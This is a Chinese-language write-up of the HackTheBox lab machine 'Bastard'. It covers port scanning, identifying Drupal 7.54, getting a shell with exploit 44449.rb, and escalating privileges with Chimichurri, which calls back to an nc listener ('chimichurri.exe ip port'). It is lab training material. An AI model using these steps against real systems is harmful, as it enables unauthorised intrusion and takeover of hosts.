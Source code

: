 ```yaml
---
title: Hackthebox::Bastard
date: 2021/12/12
tags: [walkthrough, 渗透测试]
categories: 渗透测试
temp_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_13.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_13.jpg
---
```


# Bastard

- **Bastard是hackthebox上一台难度中等的windows靶机**

### 信息收集

- nmap进行端口扫描，首先扫描前100个容易受到攻击的端口

![0.9](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.9.png)

- nmap进行更细致的扫描

![1](https://herozql.oss-cn-beijing.aliyuncs.com/main/1.png)

- nmap扫描是否存在漏洞

![2](https://herozql.oss-cn-beijing.aliyuncs.com/main/2.png)

- 至此，nmap向我们反馈了有用的信息：

```
80 http
135 msrpc
49154 open unknow
```

- 登录80端口，查看网页信息

![0.1](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.1.png)

- 我们从网页底部可以知道这个CMS是drupal系统，但是我们不知道他的具体版本
- 接下来使用dirsearch进行目录扫描，我尝试使用gobuster 进行扫描，但是结果并能使人满意，可能这次并不适用于用gobuster扫描，有时候最好同时使用这两个工具进行扫描，并且更换不同的字典然后进行多次扫描，可能会费时费力，但是收集有用的信息对我们来说是非常重要的

``` 
dirsearch -u http://10.129.189.21 -x 403 -t 200
```

![0.15](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.15.png)

- 我们发现了许多文件，其中CHAGELOG.txt文件中有这CMS的版本信息，我们可以查看到

![0.2](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.2.png)

- 当然，我也参考了别人的walkthrough，他们扫描出了/rest 文件夹，我试着使用它们的字典以及工具进行扫描，扫描时间实在太长，而且我们完全可以不使用 /rest 文件就能达到我们的渗透目的
- 接下来使用searchsploit 对 drupal 7.54 版本进行扫描

![3.9](https://herozql.oss-cn-beijing.aliyuncs.com/main/3.9.png)



### 漏洞利用

- 使用 44449.rb 脚本

![4](https://herozql.oss-cn-beijing.aliyuncs.com/main/4.png)

![5](https://herozql.oss-cn-beijing.aliyuncs.com/main/5.png)

![4.5](https://herozql.oss-cn-beijing.aliyuncs.com/main/4.5.png)

- 我们得到了一个shell，这是我在参考了许多walkthrough后得到的最快捷的方式

- 查看系统信息

![6](https://herozql.oss-cn-beijing.aliyuncs.com/main/6.png)



### 权限提升

- 下载使用[Chimichurri](https://github.com/mxrmiss/Chimichurri)脚本

![7](https://herozql.oss-cn-beijing.aliyuncs.com/main/7.png)

- 在windows靶机中接收脚本文件

![8](https://herozql.oss-cn-beijing.aliyuncs.com/main/8.png)

- 本地机器nc监听端口
- 靶机上使用脚本文件

```
chimichurri.exe ip port
```

- 查看之前监听的端口(可能一次不一会成功，需要多试几次)

![9](https://herozql.oss-cn-beijing.aliyuncs.com/main/9.png)

- 结束